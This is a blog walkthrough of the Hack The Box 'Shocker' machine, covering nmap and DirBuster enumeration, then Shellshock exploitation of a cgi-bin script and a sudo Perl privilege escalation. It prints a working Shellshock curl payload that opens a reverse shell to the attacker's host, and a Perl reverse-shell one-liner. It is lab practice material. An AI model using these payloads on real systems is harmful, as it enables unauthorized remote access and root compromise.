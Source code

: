 ```yaml
---
title: Shocker
date: 2020-05-17 16:19
description: HTB Walkthrough without Metasploit
featured_image: '/images/blog/shocker/shocker.jpg'
tags: ['Hack The Box']
---
```


In this Hack The Box, we’ll be using DirBuster to look for hidden directories, and we’ll get to use the shellscript exploit to gain access to the box–all without using Metasploit, so let’s begin!

<h2><a class="header_post" name="hackthebox">Hack The Box</a></h2>

* Operating System: Linux 
* Difficulty: Easy

<h2><a class="header_post" name="enumeration">Enumeration</a></h2>

Let's start with the good ol' nmap scan. 

<img src="/images/blog/shocker/nmapscan.jpg" alt="nmap scan">

	PORT     STATE SERVICE VERSION
	80/tcp   open  http    Apache httpd 2.4.18 ((Ubuntu))
	|_http-server-header: Apache/2.4.18 (Ubuntu)
	|_http-title: Site doesn't have a title (text/html).
	2222/tcp open  ssh     OpenSSH 7.2p2 Ubuntu 4ubuntu2.2 
	                       (Ubuntu Linux; protocol 2.0)
	| ssh-hostkey: 
	|   2048 c4:f8:ad:e8:f8:04:77:de:cf:15:0d:63:0a:18:7e:49 (RSA)
	|   256 22:8f:b1:97:bf:0f:17:08:fc:7e:2c:8f:e9:77:3a:48 (ECDSA)
	|_  256 e6:ac:27:a3:b5:a9:f1:12:3c:34:a5:5d:5b:eb:3d:e9 (ED25519)

From the results, we can see that port 80 is open, so let’s see what we can find.

### Website Information 

In the web browser, I went to `10.10.10.56`. Hah, look what's on the front page. 

<img src="/images/blog/shocker/website.jpg" alt="front page of website">

Next, I checked the source code and the HTTP headers using Burp Suite--nothing.

I decided to use DirBuster since I wasn't having any luck. 

### DirBuster

To access DirBuster, in terminal type in `dirbuster`, and it should open the program. I used the medium wordlist file located in: 

<strong>/usr/shared/wordlists/dirbuster/directory-list-2.3-medium.txt</strong>

Here are the results:

<img src="/images/blog/shocker/dirbuster.jpg" alt="dirbuster results">

I tried to access /icons, no luck. That said, what's interesting is the cgi-bin directory that DirBuster has found. Since cgi-bin is a folder that can be used to house scripts.. I wonder if there's any scripts in that folder.

I reran DirBuster, but this time added the file extensions: <strong>sh, pl, py, and rb</strong>. 

<img src="/images/blog/shocker/dirbustershell.jpg" alt="dirbuster results with shell script">

Here we go, it looks like we found a <strong>user.sh</strong> file, which confirms that the cgi-bin does allow for scripts to run. Meaning, we can try to send a shell script over to gain access to the machine.

### Using Nmap Scripts

Since we've confirmed that the cgi-bin directory can execute shell scripts, I did some investigating and found out about the shellshock vulnerability. Here's what I found:

*Shellshock could enable an attacker to cause Bash to execute arbitrary commands and gain unauthorized access to many Internet-facing services, such as web servers, that use Bash to process requests.*

You can learn more about it here: [Wikipedia - Shellshock (Software Bug)](https://en.wikipedia.org/wiki/Shellshock_(software_bug))

Before using it, I wanted to verify that this HTB is vulnerable to shellshock, so I used a nmap script. To find the script in Kali Linux use the `locate` command. Once found, you can use the `cp` command to copy it to your current directory. 

	root@kali:~# locate http-shellshock
	/usr/share/nmap/scripts/http-shellshock.nse
	root@kali:~# cp /usr/share/nmap/scripts/http-shellshock.nse /root/HTB/Shocker

Before using it, I edited the file by using the `gedit` command and removed the line: 

`options["header"][cmd] = cmd`

Then we can go ahead and run the script..

<img src="/images/blog/shocker/nmapscript.jpg" alt="nmap script results">

..Yes! Confirmed that this box might be vulnerable to shellshock, so let's use it. 

<h2><a class="header_post" name="exploitation">Exploitation</a></h2>

Before moving forward with exploitation, let's recap what we know so far:

* In the nmap scan, we found out that port 80 is open. 
* In DirBuster we saw the cgi-bin directory that contained a user.sh file.
* The above tells us that the cgi-bin directory can store and execute shell scripts.
* Confirmed that port 80 is vulnerable to the shellscript exploit by running a nmap script.

Okay, now that we know the above. Let's start our exploit!

### Shellscript Exploit

To start with the shellscript exploit, we're going to do the following: 

Enter this command in one terminal window:

	curl -H "User-Agent: () { :; }; /bin/bash -i >& /dev/tcp/10.10.14.31/4444 0>&1" http://10.10.10.56:80/cgi-bin/user.sh

And then open a netcat listener in another terminal window, `nc -lnvp 4443`

<img src="/images/blog/shocker/shellscript.jpg" alt="shellscript exploit">

Would you look at that--it worked! It looks like we have access to Shelly's account. Let's see what type of privileges Shelly has by using the `sudo -l` command.

<img src="/images/blog/shocker/shelly.jpg" alt="shelly privileges">

It looks like Shelly can run a perl script, so we can see if we can get a reverse shell using perl.

### Privilege Escalation

I like to use Pentest Monkey's cheat sheet to find a reverse shell suing perl. The cheat sheet can be found here: [Reverse Shell Cheat Sheet](http://pentestmonkey.net/cheat-sheet/shells/reverse-shell-cheat-sheet)

	sudo perl -e 'use Socket;$i="10.10.14.31";$p=4444;socket(S,PF_INET,SOCK_STREAM,getprotobyname("tcp"));if(connect(S,sockaddr_in($p,inet_aton($i)))){open(STDIN,">&S");open(STDOUT,">&S");open(STDERR,">&S");exec("/bin/sh -i");};'

Before executing the command, we'll want to create a Netcat listener first in another terminal window by typing `nc -lnvp 4444` 

<img src="/images/blog/shocker/pescalation.jpg" alt="privilege escalation">

We did it! We can use the `whoami` command to verify root access, and we do. Congrats! We now have access to the Shocker HTB. From here, we can locate the root.txt and user.txt file to grab the flags. 

<h2><a class="header_post" name="conclusion">Conclusion</a></h2>

Running DirBuster on web servers is extremely helpful because it'll find directories that you wouldn't normally see when you first go to a website. In this box, we were able to locate the cgi-bin directory which housed scripts. Once we found that out, we were able to upload and execute our own scripts to gain root access. 
